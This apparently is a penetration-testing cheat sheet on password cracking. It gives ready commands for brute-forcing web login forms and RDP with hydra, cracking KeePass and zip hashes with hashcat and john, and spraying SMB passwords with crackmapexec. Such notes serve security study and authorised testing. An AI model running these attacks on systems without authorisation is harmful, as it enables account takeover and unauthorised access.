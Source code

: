 # 05 - Password Cracking

Index
- [First Rule!](#First-Rule)
- [Form Login](#Form-Login)
- [RDP](#RDP)
- [KeePass DB](#KeePass-DB)
- [Zip](#Zip)

## First Rule
Always try the default credentials!

## Form Login
``` bash
hydra -L user.txt -P /usr/share/wordlists/rockyou.txt 192.168.1.1 -s 443 http-post-form "/login.php:LOGIN=^LOGIN^&password=^PASS^:Login failed"
         # user file # password file                  # target           # method                   # user field                  # error msg
```

## RDP
``` bash
hydra -L user.txt -P /usr/share/wordlists/rockyou.txt rdp://192.168.1.1
```

## KeePass DB
``` bash
keepass2john Database.kdbx > keepass.hash                                                               ## extract the hash (*)
hashcat -m 13400 keepass.hash /usr/share/wordlists/rockyou.txt -r /usr/share/hashcat/rules/best64.rule  ## cracking
```
(*) The hash file was generated with the string "Database:", delete it.

## Zip
``` bash
zip2john file.zip > file.hash                               ## hash extraction
john file.hash --wordlist=/usr/share/wordlists/rockyou.txt  ## cracking
```

## SMB password spraying
``` bash
crackmapexec smb 192.168.1.1 -d domain.local -u user.txt -p passwd.txt
```